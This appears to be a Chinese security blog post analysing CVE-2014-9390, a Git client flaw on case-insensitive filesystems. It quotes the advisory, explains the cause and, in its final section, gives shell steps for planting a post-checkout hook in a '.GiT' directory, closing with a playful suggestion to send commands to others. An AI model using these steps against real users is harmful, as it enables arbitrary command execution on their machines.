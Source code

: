 ```yaml
---
category:	Hacking
layout:		post
title:		Git的客户端命令执行漏洞（CVE-2014-9390）简单分析
desc:		今日看到有这个漏洞的介绍，简单看了下，发现漏洞原因以及利用很简单，记记记!
tags:		[cve-2014-9390,git vul,git command execute]
---
```

#### 参考资料
* [https://github.com/blog/1938-git-client-vulnerability-announced](https://github.com/blog/1938-git-client-vulnerability-announced)    
* [http://www.secpulse.com/archives/3420.html](http://www.secpulse.com/archives/3420.html)

#### 漏洞成因
	The vulnerability concerns Git and Git-compatible clients that access Git repositories in a case-insensitive or case-normalizing filesystem. An attacker can craft a malicious Git tree that will cause Git to overwrite its own `.git/config` file when cloning or checking out a repository, leading to arbitrary command execution in the client machine. Git clients running on OS X (HFS+) or any version of Microsoft Windows (NTFS, FAT) are exploitable through this vulnerability. Linux clients are not affected if they run in a case-sensitive filesystem.

以上是原文，如果你E文也不好，那就参考我的理解：
`windows`和`osx`使用的文件系统(`NTFS`、`FAT`)不区分文件名的大小写，而`Linux`则区分。根据这个特性可以在`Linux`下创建一个大小写区别的`.git`文件夹，进而覆盖`.git`的配置文件，从而导致任意命令执行。

#### 测试例子
打开[http://gitcasefail.googlecode.com/svn/trunk/](http://gitcasefail.googlecode.com/svn/trunk/)这个谷歌代码仓库，可以看到有一个`.git`和一个`.Git`目录，关键是`.Git`这个目录，在里面的`hooks`目录里面有个`post-checkout`文件，这个就是导致命令执行的文件。
然后我们直接通过以下命令测试，如果命令执行则说明漏洞存在：
[code:bash:edoc]
git clone http://gitcasefail.googlecode.com/svn/trunk/repo/ 
[codend]

#### 漏洞利用
我们进入`Linux`系统，然后初始化一个`git`目录，通过'ls -al'可以看到有`.git`目录，然后呢，直接创建`.gIt`文件夹并创建利用脚本：
[code:bash:edoc]
mkdir .GiT
cd .GiT
mkdir hooks
cd hooks
touch post-checkout
echo whoami>post-checkout
[edoc]
然后发布代码，测试成功后即可发命令给对方进行调戏了～～
